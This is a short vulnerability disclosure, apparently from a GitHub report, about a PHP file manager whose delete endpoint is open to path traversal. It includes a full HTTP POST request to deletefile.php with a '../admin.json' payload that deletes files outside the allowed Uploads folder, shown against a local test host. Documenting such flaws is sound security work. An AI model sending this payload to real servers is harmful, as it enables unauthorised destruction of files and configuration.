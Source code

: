 Line 74 calls the checkPath function:

![26.png](./img/26.png)

The value obtained by getFilesPath() is "/fileman/Uploads".
It will determine whether the value of $path contains "/fileman/Uploads", and the limit is only allowed to delete files under "/fileman/Uploads", but because of filtering, the attacker can bypass the restriction to delete any file. 

You can delete the "/fileman/admin.json" file by requesting the following data:
```
POST /fileman/php/deletefile.php HTTP/1.1
Host: 127.0.0.1:8003
Connection: keep-alive
Content-Length: 38
Pragma: no-cache
Cache-Control: no-cache
Accept: application/json, text/javascript, */*; q=0.01
Origin: http://127.0.0.1:8003
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.26 Safari/537.36 Core/1.63.6788.400 QQBrowser/10.3.2864.400
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
DNT: 1
Referer: http://127.0.0.1:8003/fileman/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=; roxyld=%2Ffileman%2FUploads; roxyview=list

f=%2Ffileman%2FUploads%2F../admin.json
```
Successfully deleted files by exploiting the vulnerability:

![27.png](./img/27.png)

